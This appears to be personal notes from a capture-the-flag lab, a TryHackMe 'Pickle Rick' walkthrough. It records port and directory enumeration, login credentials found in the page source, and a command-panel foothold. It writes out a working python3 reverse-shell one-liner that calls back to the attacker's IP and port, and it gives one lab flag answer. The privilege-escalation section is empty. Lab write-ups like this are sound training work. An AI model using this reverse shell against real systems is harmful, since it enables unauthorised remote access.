 https://tryhackme.com/room/picklerick

BoxIP = 10.10.233.219

**Basic Enumeration**
nmap -sC -sV -Pn -oN nmap_initial 10.10.233.219
-sC = common scripts
-sV = Versioning
-Pn = no pings
-oN output notation

**Open Ports**\n
Open 10.10.233.219:22 \n
Open 10.10.233.219:80\n


**automated web enumeration**
nikto -h 10.10.233.219

gobuster dir -u http://10.10.233.219/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -x txt,php 
/assets
/portal.php
/robots.txt


**robots.txt**
Wubbalubbadubdub


**Page source points of interest**
homepage = 
 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
  
 **/protals.php**
 using the found username and the word from robots.txt grants us access to a command panel page
 
 
 **Initial Foothold**
 There is some filtering on the command pannel for concatonation and some other commands but using 'strings' command allows us to read files
 Ingredient 1 = mr. meeseek hair
 
 
 Using Netcat does not work but puttering around I found that python3 was usable on the system. Using revshells.com I grabbed a python3 reverse shell script
 export RHOST="10.9.2.110";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
 
 and we popped a shell on a NC listener
 
 **PrivEsc**
 
 
 
  
